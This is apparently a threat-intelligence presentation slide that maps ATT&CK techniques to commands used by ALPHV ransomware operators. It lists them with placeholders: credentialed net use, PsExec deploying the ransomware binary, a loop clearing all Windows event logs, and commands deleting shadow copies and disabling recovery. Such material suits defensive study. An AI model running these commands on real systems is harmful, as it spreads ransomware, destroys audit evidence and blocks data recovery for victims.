

# Detailed commands
| Name | Detailed command |
| --- | --- |
| T1033 Net Use | net use \\[computer name]  /user:[domain]\[user] [password] /persistent:no (Microsoft Threat Intelligence, 2022) |
| T1570 PsExec | psexec.exe -accepteula \\<TARGET\_HOST> -u <USERNAME> -p <PASSWORD> -s -d -f -c <ALPHV\_EXECUTABLE> [FLAGS] [OPTIONS] --access-token <ACCESS\_TOKEN> [SUBCOMMAND] (Bouchrika, 2023) |
| T1070.001 wevtutil.exe | for /F \”tokens=\*\” %1 in (‘wevtutil.exe el’) DO wevtutil.exe cl \”%1\” (Microsoft Threat Intelligence, 2022) |
| T1490 vssadmin.exe | vssadmin.exe delete shadows /all /quiet wmic.exe Shadowcopy Delete bcdedit /set {default} recoveryenabled No (Clark et al., 2019) |